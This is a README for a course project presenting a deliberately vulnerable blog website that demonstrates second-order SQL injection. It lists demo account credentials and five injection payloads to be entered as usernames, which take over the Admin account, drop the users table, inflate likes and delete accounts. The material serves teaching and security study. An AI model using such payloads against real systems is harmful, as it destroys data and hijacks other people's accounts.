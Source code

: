 ### TDA602 Course Project - Second-Order SQL Injection

This project demonstrates a second-order SQL injection vulnerability in a blog website. 
Users can create new accounts and write blog posts after logging in. Each post can be liked once, 
and the posts are sorted by the number of likes, with the most liked posts appearing at the top. 
As an admin, you have also the privilege to remove these posts.
The second-order injection attack can be performed by registering a new account with a malicious SQL 
command in the username field and then updating the password. Further details are provided below.

## Current Accounts:

Admin - Username: "Admin", Password: "dontHack"

Ava - Username: "Ava", Password: "password1"

JARVIS - Username: "JARVIS", Password: "password2"

Skynet - Username: "Skynet", Password: "password3"


## Second-Order Injection Attacks:

To perform a second-order SQL injection attack, first register a new user with an SQL injection command as the username. 
Then, log in as the new user and update the password. Afterward, the SQL command will be executed.

Examples of second-order SQL injection attacks:

1) Change the Admin's password (not the "Admin’ —" account):

```sql
Admin' --
```

2) Drop all users:

```sql
'; DROP TABLE users --
```

3) Add likes to a specific blog post (replace id with the blog post ID you want to modify, same with amount of likes):

```sql
'; UPDATE blog_posts SET number_likes = number_likes + 10 WHERE id = 1 --
```

4) Remove the new account
```sql
' ; DELETE FROM users WHERE ROWID = (SELECT MAX(ROWID) FROM users) --
```

5) Remove last account and any other you specify
```sql
' ; DELETE FROM users WHERE ROWID = (SELECT MAX(ROWID) FROM users) OR username = "'; UPDATE blog_posts SET number_likes = number_likes + 10 WHERE id = 1 --" --
```
